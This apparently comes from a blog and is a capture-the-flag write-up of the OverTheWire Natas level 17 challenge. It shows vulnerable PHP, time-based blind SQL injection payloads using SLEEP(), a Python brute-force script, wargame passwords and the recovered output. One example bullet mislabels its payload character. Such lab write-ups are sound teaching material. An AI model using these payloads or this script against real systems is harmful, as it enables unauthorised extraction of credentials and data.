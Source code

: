 Continuing with last few challenges' theme, this one is another SQL injection
puzzle. Piece of code that matters is the following:  
  

    
    
    <?  
      
    /*  
    CREATE TABLE `users` (  
      `username` varchar(64) DEFAULT NULL,  
      `password` varchar(64) DEFAULT NULL  
    );  
    */  
      
    if(array_key_exists("username", $_REQUEST)) {  
        $link = mysql_connect('localhost', 'natas17', '<censored>');  
        mysql_select_db('natas17', $link);  
          
        $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";  
        if(array_key_exists("debug", $_GET)) {  
            echo "Executing query: $query<br>";  
        }  
      
        $res = mysql_query($query, $link);  
        if($res) {  
        if(mysql_num_rows($res) > 0) {  
            //echo "This user exists.<br>";  
        } else {  
            //echo "This user doesn't exist.<br>";  
        }  
        } else {  
            //echo "Error in query.<br>";  
        }  
      
        mysql_close($link);  
    } else {  
    ?>   
    

  
You'll notice a couple of thing:  

  * A table _users_ is created, with 2 fields _username _and _password._
  * No output is shown for any input you pass.

What options do we have here? We won't be able to show error messages, use
union based SQL injection since no output exists. How about
[SLEEP()](https://www.pythian.com/blog/mysql-injection-sleep/)? We can force
the SQL statement executed to reveal data by answering yes/no questions. Let's
check first if we're able to use the sleep command and some examples to show
how we can utilize it. You can use Fiddler as proxy for Windows or Burpsuite
for Linux (or whatever tool that does the job) to observe duration.  
  

  * **Input:** _natas18" and sleep(5) #_  
**Query:** SELECT * from users where username="_natas18" and sleep(5) #_  
**Output: **Overall Elapsed:    0:00:05.384  
**Meaning**: User named natas18 exists and sleep(5) **was executed**

  * **Input:** _idontexist" and sleep(5) #_  
**Query:** SELECT * from users where username="_idontexist" and sleep(5) #_  
**Output: **Overall Elapsed:    0:00:00.372  
**Meaning**: User named idontexist doesn't exists and sleep(5) **was not executed**

  * **Input:** _natas18" and password like binary '%a%' and sleep(5) #_  
**Query:** SELECT * from users where username="_natas18" and password like binary '%a%' and sleep(5) #_  
**Output: **Overall Elapsed:    0:00:00.359  
**Meaning**: password for natas18 does not contain the letter 'a' and sleep(5) **was not executed **

  * **Input:** _natas18" and password like binary '%d%' and sleep(5) #_  
**Query:** SELECT * from users where username="_natas18" and password like binary '%a%' and sleep(5) #_  
**Output: **Overall Elapsed:    0:00:00.359  
**Meaning**: password for natas18 **does **contain the letter 'a' and sleep(5) **was executed**

Noticed what happened? By asking the right question, you can get a yes/no
depending on the request duration!  
  
We'll be using a simple python script to automate the process for us, first by
finding the set of characters that exist in password for user natas18 then
reconstructing the password.  
  

    
    
    import requests  
    from requests.auth import HTTPBasicAuth  
      
    Auth=HTTPBasicAuth('natas17', '8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw')  
    headers = {'content-type': 'application/x-www-form-urlencoded'}  
    filteredchars = ''  
    passwd = ''  
    allchars = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890'  
      
    for char in allchars:  
            payload = 'username=natas18%22+and+password+like+binary+%27%25{0}%25%27+and+sleep%281%29+%23'.format(char)  
            r = requests.post('http://natas17.natas.labs.overthewire.org/index.php', auth=Auth, data=payload, headers=headers)  
            if(r.elapsed.seconds >= 1):  
                    filteredchars = filteredchars + char  
                    print(filteredchars)  
      
    print(filteredchars)  
      
    for i in range(0,32):  
            for char in filteredchars:  
                    payload = 'username=natas18%22%20and%20password%20like%20binary%20\'{0}%25\'%20and%20sleep(1)%23'.format(passwd + char)  
                    r = requests.post('http://natas17.natas.labs.overthewire.org/index.php', auth=Auth, data=payload, headers=headers)  
                    if(r.elapsed.seconds >= 1):  
                            passwd = passwd + char  
                            print(passwd)  
                            break  
    

  
Output:  
  

    
    
    d  
    dg  
    dgh  
    dghj  
    dghjl  
    dghjlm  
    dghjlmp  
    dghjlmpq  
    dghjlmpqs  
    dghjlmpqsv  
    dghjlmpqsvw  
    dghjlmpqsvwx  
    dghjlmpqsvwxy  
    dghjlmpqsvwxyC  
    dghjlmpqsvwxyCD  
    dghjlmpqsvwxyCDF  
    dghjlmpqsvwxyCDFI  
    dghjlmpqsvwxyCDFIK  
    dghjlmpqsvwxyCDFIKO  
    dghjlmpqsvwxyCDFIKOP  
    dghjlmpqsvwxyCDFIKOPR  
    dghjlmpqsvwxyCDFIKOPR4  
    dghjlmpqsvwxyCDFIKOPR47  
    dghjlmpqsvwxyCDFIKOPR470  
    dghjlmpqsvwxyCDFIKOPR470  
    x  
    xv  
    xvK  
    xvKI  
    xvKIq  
    xvKIqD  
    xvKIqDj  
    xvKIqDjy  
    xvKIqDjy4  
    xvKIqDjy4O  
    xvKIqDjy4OP  
    xvKIqDjy4OPv  
    xvKIqDjy4OPv7  
    xvKIqDjy4OPv7w  
    xvKIqDjy4OPv7wC  
    xvKIqDjy4OPv7wCR  
    xvKIqDjy4OPv7wCRg  
    xvKIqDjy4OPv7wCRgD  
    xvKIqDjy4OPv7wCRgDl  
    xvKIqDjy4OPv7wCRgDlm  
    xvKIqDjy4OPv7wCRgDlmj  
    xvKIqDjy4OPv7wCRgDlmj0  
    xvKIqDjy4OPv7wCRgDlmj0p  
    xvKIqDjy4OPv7wCRgDlmj0pF  
    xvKIqDjy4OPv7wCRgDlmj0pFs  
    xvKIqDjy4OPv7wCRgDlmj0pFsC  
    xvKIqDjy4OPv7wCRgDlmj0pFsCs  
    xvKIqDjy4OPv7wCRgDlmj0pFsCsD  
    xvKIqDjy4OPv7wCRgDlmj0pFsCsDj  
    xvKIqDjy4OPv7wCRgDlmj0pFsCsDjh  
    xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhd  
    xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP  
    

  
**Natas 18 password is xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP**  
  
_Currently listening to [Xasthur - Portal of
Sorrow](https://www.youtube.com/watch?v=_2okL15Tuh8)_  


